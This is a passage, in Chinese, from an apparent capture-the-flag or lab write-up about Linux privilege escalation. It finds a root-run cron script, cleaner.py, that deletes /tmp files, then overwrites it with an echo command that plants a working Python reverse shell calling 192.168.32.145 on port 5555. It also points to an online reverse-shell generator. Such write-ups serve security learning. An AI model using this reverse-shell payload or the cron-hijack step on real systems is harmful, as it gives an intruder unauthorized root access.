 ```shell
find -name cleaner.py  2>/dev/null   #忽略掉错误提示信息
```

![](img/Snipaste_2022-02-16_16-28-48.png)

查看文件：

`cat /lib/log/cleaner.py`

```python

#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

注意： 这个并不是把我们踢出的脚本，功能只是删除/tmp 目录里面的文件，计划任务一般情况是root权限运行， 不过我们可以借助它反弹root权限的shell，就是把里面的内容修改为我们的反弹shell。





### 3.1python建立反弹shell脚本

各种类型的反弹shell在线生成https://shell.nctry.com/

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.145",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

由于我们不能直接编辑cleaner.py这个脚本，用echo命令把代码加到cleaner.py里面。

```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.145",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /lib/log/cleaner.py
```


